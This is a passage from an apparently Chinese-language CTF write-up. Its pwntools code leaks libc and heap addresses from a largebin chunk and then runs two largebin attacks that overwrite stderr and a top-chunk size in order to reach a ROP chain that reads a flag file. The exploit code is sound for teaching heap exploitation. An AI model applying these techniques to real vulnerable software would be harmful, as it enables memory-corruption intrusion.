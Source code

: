 ```plain
add(0,0x420,b"000") #0
add(1,0x430,b"111") #1
add(2,0x418,b"222") #2

free(0)

add(3,0x440,b"333") #3

show(0) #p1
p.recvuntil("Context:\n")

libc_base = u64(p.recv(6).ljust(8,b"\x00")) -0x21a0d0
success("libc: " + hex(libc_base))

heap_base = u64(p.recv(6).ljust(8,b"\x00")) - 0x290
success("heap: " + hex(heap_base))
```

largebin chunk 还是很好泄露 libc 和 heap 地址的

[![](assets/1699929779-4efb31db5ce124fa735a1ae1f0278aad.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110001402-ff42b614-7f1a-1.png)

### 二、两次 largebin attack

```plain
payload = fake_struct + p64(0)*7 + p64(rop_addr) + p64(ret)
free(2)
add(4,0x418,payload) 
free(4) #p2
# largebin attack
edit(0,p64(libc_base+0x21a0d0)*2 + p64(heap_base+0x290) + p64(stderr-0x20))
#改 stderr
add(5,0x440,"55555")
add(6,0x430,"./flag")
add(7,0x430,"77777")

add(8,0x430,rop)
free(5)
add(9,0x450,"9999")
free(7)
edit(5,p64(libc_base + 0x21a0e0)*2 + p64(heap_base + 0x1370) + p64(heap_base + 0x28e0-0x20 + 3))
#改 top_chunk size
```
